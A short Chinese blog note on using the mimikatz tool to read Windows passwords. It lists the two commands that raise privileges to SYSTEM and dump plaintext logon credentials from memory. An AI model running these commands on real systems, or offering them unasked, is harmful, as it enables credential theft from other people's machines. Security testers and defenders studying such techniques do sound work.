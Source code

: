 ```yaml
---
title: 使用mimikatz读取windows密码
abbrlink: a80bd06b
cover: 'https://static.zahui.fan/images/windows.jpg'
categories:
  - Windows
tags:
  - bat
date: 2021-07-05 15:20:52
---
```


[github地址](https://github.com/gentilkiwi/mimikatz)

mimikatz 是一个小工具，可以查看到windows加载进内存的密码数据，首先最起码要使用Administrator权限启动

依次执行：

从administrator提升到system  

```bat
privilege::debug  
```

获取明文密码  

```bat
sekurlsa::logonpasswords
```
